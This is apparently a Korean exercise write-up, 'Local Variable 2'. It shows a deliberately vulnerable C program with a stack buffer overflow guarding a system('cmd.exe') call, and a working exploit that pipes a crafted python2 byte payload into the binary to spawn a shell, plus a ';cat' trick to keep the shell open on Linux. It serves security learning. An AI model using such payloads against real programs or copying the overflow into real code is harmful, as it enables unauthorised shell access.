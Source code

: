 # Local Variable 2

### Question

- cmd.exe가 실행되도록 입력 페이로드 구현

```
#include <stdio.h>
int main()
{
	int crap;
	int *check;
	char buf[20];
	fgets(buf, 48, stdin);
	if (*check == 0xbadc0ded)
	{
		system("cmd.exe");
	}
	return 0;
}
```



<br>



### Result

```
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	char cmd[1024] = "python2 -c \"print \'\\xed\\x0d\\xdc\\xba\' + \'A\'*16 + \'\\x10\\xff\\x19\\x00\'\"";
	char *fname = "C:\\Users\\roj\\Downloads\\local_var_2.exe";

	strcat(cmd, " | ");
	strcat(cmd, fname);

	//printf("%s\n", cmd);
	system(cmd);

	return 0;
}
```

![image-1.png](../images/image-1.png)

- Local Variable_1과 마찬가지로 cmd.exe가 유지되지 않고 꺼짐

- Linux에서는 ';cat' 명령어를 붙여 실행하여 유지 가능

